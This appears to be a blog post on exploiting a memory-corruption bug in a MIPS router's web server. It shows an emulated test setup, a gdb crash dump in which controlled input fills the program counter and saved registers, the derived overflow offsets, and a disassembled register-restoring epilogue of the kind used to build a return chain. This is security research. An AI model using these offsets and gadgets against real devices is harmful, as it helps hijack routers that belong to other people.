 ```yaml
---
layout: post
comments: true
title: "Exploiting a MIPS router"
tags: [MIPS, exploit]
---
```


## Testing environment

```
root@debian-mips:~# mount --bind /proc /tl-rootfs/proc/
root@debian-mips:~# chroot /tl-rootfs/ bin/sh


BusyBox v1.01 (2015.03.10-07:17+0000) Built-in shell (msh)
Enter 'help' for a list of built-in commands.

# export LD_PRELOAD=/hook-mips.so
# httpd
```

## PoC

```
#0  0x61616561 in ?? ()
(gdb) i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 00000001 00000000 00000302 7d7fe878 00560000 00000002 00000000 
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   00000000 00000000 00000000 86ffa000 00000000 7e1ffc14 61636661 00000000 
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  61616261 61616361 61616461 00000005 00000000 00000007 00000000 0064c804 
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  00000000 2aad2980 00000000 00000000 00594d80 7d7fed50 7d7fedf8 61616561 
            sr       lo       hi      bad    cause       pc
      0000a413 2deb3800 0000e72b 61616560 10800008 61616561 
           fsr      fir
      00000000 00000000
```

So we obtained the following offset for the registers we control

 - ``s0`` -> 3
 - ``s1`` -> 7
 - ``s2`` -> 11
 - ``pc`` -> 15
 - ``t6`` -> too far away

```
                    LAB_0043bc98
.text:0043bc98 8f bf 02 24     lw                 ra,local_4(sp)
.text:0043bc9c 8f b2 02 20     lw                 s2,local_8(sp)
.text:0043bca0 8f b1 02 1c     lw                 s1,local_c(sp)
.text:0043bca4 8f b0 02 18     lw                 s0,local_10(sp)
.text:0043bca8 03 e0 00 08     jr                 ra
.text:0043bcac 27 bd 02 28     _addiu             sp,sp,0x228
```
